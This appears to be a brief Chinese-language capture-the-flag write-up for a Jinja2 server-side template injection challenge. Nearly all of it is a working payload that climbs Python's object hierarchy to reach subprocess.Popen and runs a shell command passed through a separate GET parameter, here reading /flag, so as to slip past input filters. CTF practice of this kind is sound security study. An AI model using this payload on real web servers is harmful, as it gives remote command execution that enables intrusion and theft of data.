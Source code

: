 # 知识点
通过request.args.a进行GET传参来绕过
# 思路
```python
?name={{().__class__.__mro__[1].__subclasses__()[407](request.args.a,shell=True,stdout=-1).communicate()[0]}}&a=cat /flag
```
